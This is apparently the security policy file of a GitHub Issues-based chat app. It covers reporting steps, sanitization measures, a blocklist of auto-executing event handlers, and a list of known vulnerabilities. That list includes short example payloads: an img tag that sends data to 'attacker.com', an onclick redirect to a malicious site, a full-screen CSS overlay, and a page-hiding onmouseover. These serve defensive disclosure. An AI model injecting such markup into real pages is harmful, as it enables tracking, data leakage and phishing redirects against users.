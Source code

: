 # Security Policy

## Supported Versions

| Version | Supported          |
| ------- | ------------------ |
| 1.0.x   | :white_check_mark: |

## Reporting a Vulnerability

We take security vulnerabilities seriously. If you discover a security vulnerability in GitHub Chat, please report it to us in a responsible manner.

### How to Report

1. **DO NOT** open a public issue for security vulnerabilities
2. Send an email to the repository owner with:
   - Description of the vulnerability
   - Steps to reproduce the issue
   - Potential impact
   - Suggested fix (if available)

### Security Measures

This application implements several security measures:

1. **Input Sanitization**: HTML content is sanitized to prevent XSS attacks
2. **Event Handler Filtering**: Auto-executing events (onload, onerror, etc.) are blocked
3. **User Interaction Only**: Only user-triggered events (onclick) are permitted
4. **JavaScript URL Blocking**: javascript: URLs are filtered out
5. **Rate Limiting**: GitHub API rate limits are respected
6. **Environment Variables**: Sensitive data is stored in environment variables
7. **Content Security Policy**: CSP headers help prevent injection attacks
8. **HTTPS Only**: All communications are encrypted

### Allowed vs Blocked Events

**✅ Allowed (Safe User Interactions):**
- `onclick` - User must click to trigger
- `onmouseover`, `onmouseout` - Safe hover animations and effects
- `onmousedown`, `onmouseup`, `onmousemove` - Mouse interaction events

**❌ Blocked (Auto-executing/Dangerous):**
- `onload`, `onerror` - Execute automatically when page/element loads
- `onfocus`, `onblur` - Execute on element focus changes  
- `onchange`, `onsubmit` - Execute on form interactions
- `onkeydown`, `onkeyup` - Execute on keyboard input
- `onresize`, `onscroll` - Execute on window/page changes
- Drag, touch, and animation completion events

### Security Best Practices for Users

1. **Be cautious with HTML content**: This chat allows HTML, so be careful with untrusted content
2. **Don't share sensitive information**: This is a public chat system
3. **Report suspicious activity**: Contact administrators if you notice unusual behavior

### Known Security Considerations

1. **HTML content with safe interactions** - Mouse events for animations allowed, auto-executing events blocked
2. **GitHub Issues are public** - All messages are visible to anyone
3. **Admin commands are restricted** - Only authorized users can execute admin commands
4. **Interactive content verification** - Users should verify authenticity of interactive elements before engaging

## Known Vulnerabilities

### High Risk

**V001: Social Engineering via Interactive Content**
- **Description**: Malicious users can create convincing fake buttons or links that appear legitimate
- **Example**: Button labeled "GitHub Login" that actually links to a phishing site
- **Impact**: Users may be tricked into clicking malicious content
- **Mitigation**: Users should verify URLs before clicking, hover to check destinations
- **Status**: Accepted risk - user education required

**V002: Clickjacking Potential**
- **Description**: Malicious onclick events can execute arbitrary JavaScript when users click
- **Example**: `onclick="window.location='http://malicious-site.com'"`
- **Impact**: Users can be redirected to malicious websites
- **Mitigation**: User awareness, verify button authenticity before clicking
- **Status**: Accepted risk - inherent to allowing onclick events

### Medium Risk

**V003: CSS-based Attacks**
- **Description**: Malicious CSS in style attributes could create overlay attacks or hide content
- **Example**: `style="position:fixed; top:0; left:0; width:100%; height:100%; z-index:9999; background:white;"`
- **Impact**: UI manipulation, content hiding, fake overlays
- **Mitigation**: CSS sanitization not implemented - users should be cautious
- **Status**: Known limitation

**V004: Data Exfiltration via External Resources**
- **Description**: Images and external resources can be used to track users or exfiltrate data
- **Example**: `<img src="http://attacker.com/track?user=victim&data=sensitive">`
- **Impact**: User tracking, potential data leakage through URL parameters
- **Mitigation**: External resource loading inherent to HTML - user awareness needed
- **Status**: Accepted risk

**V005: DOM Manipulation via Mouse Events**
- **Description**: onmouseover/onmouseout events can manipulate page content beyond intended scope
- **Example**: `onmouseover="document.body.style.display='none'"`
- **Impact**: Page manipulation, content hiding, user experience disruption
- **Mitigation**: Limited by browser security model, page refresh recovers
- **Status**: Accepted risk for animation functionality

### Low Risk

**V006: Content Injection via Markdown**
- **Description**: Markdown processing might allow unexpected HTML through conversion edge cases
- **Example**: Complex markdown that bypasses HTML sanitization
- **Impact**: Potential XSS if sanitization is bypassed
- **Mitigation**: Dual-layer sanitization (server + client), regular security reviews
- **Status**: Monitored

**V007: GitHub API Rate Limit DoS**
- **Description**: Excessive refresh requests could exhaust GitHub API rate limits
- **Example**: Automated scripts hitting refresh repeatedly
- **Impact**: Service degradation, temporary unavailability
- **Mitigation**: Client-side rate limiting, user education
- **Status**: Low impact

**V008: Browser Storage Poisoning**
- **Description**: Service Worker cache could be poisoned with malicious content
- **Example**: Cached malicious API responses served when offline
- **Impact**: Persistent malicious content display
- **Mitigation**: Cache versioning, cache invalidation on updates
- **Status**: Low probability

## Vulnerability Disclosure Timeline

### Planned Security Reviews
- **Monthly**: Review admin user list and permissions
- **Quarterly**: Audit dangerous event handler blocklist
- **Bi-annually**: Full security assessment and penetration testing
- **Annually**: Third-party security audit (if resources available)

### Response Timeline
- **Critical vulnerabilities**: 24-48 hours
- **High vulnerabilities**: 1 week
- **Medium vulnerabilities**: 1 month
- **Low vulnerabilities**: Next major release

## Security Assumptions

This system assumes:
1. Users will exercise caution with interactive content
2. GitHub's infrastructure security (we rely on GitHub Issues/Pages)
3. Browser security model effectiveness
4. Admin users are trustworthy and properly secured
5. Users understand this is a public chat system

## Recommendations for Users

### Before Clicking Any Interactive Element:
1. **Verify the source** - Check who posted the content
2. **Inspect URLs** - Hover over links to see destinations
3. **Be suspicious of urgent requests** - "Click here immediately" is often malicious
4. **Don't enter sensitive information** - This is a public chat system
5. **Report suspicious content** - Contact administrators for concerning posts

### For Administrators:
1. **Monitor for abuse** - Regularly review chat content
2. **Rotate tokens** - Change GitHub tokens periodically
3. **Limit admin access** - Only trusted users should have admin privileges
4. **Keep updated** - Apply security updates promptly
5. **Backup regularly** - Maintain chat data backups

## Updates

Security updates will be published as new releases. Please keep your deployment up to date.